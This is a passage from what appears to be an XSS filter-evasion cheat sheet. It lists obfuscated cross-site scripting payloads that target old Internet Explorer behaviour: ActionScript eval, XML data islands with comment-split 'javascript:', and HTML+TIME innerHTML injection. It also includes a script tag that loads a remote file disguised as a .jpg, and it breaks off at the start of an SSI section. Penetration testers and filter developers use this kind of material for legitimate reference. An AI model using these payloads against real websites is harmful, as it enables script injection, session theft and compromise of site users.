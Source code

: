 ## Using ActionScript inside flash can obfuscate your XSS vector

`a="get";`  
`b="URL(\"";`  
`c="javascript:";`  
`d="alert('XSS');\")";`  
`eval(a+b+c+d);`

## XML data island with CDATA obfuscation

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine
mode) - vector found by Sec Consult while auditing Yahoo:

`<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>`  
`<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>`

## Locally hosted XML with embedded JavaScript that is generated using an XML data island

This is the same as above but instead referrs to a locally hosted (must
be on the same server) XML file that contains your cross site scripting
vector. You can see the result here:

`<XML SRC="xsstest.xml" ID=I></XML>`  
`<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>`

## HTML+TIME in XML

This is how Grey Magic hacked Hotmail and Yahoo\!. This only works in
Internet Explorer and Netscape 8.1 in IE rendering engine mode and
remember that you need to be between HTML and BODY tags for this to
work:

`<HTML><BODY>`  
`<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">`  
`<?import namespace="t" implementation="#default#time2">`  
`<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">`  
`</BODY></HTML>`

## Assuming you can only fit in a few characters and it filters against ".js"

you can rename your JavaScript file to an image as an XSS vector:

`<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>`

## SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector.
I probably don't need to mention this, but if you can run commands on
the server there are no doubt much more serious issues:
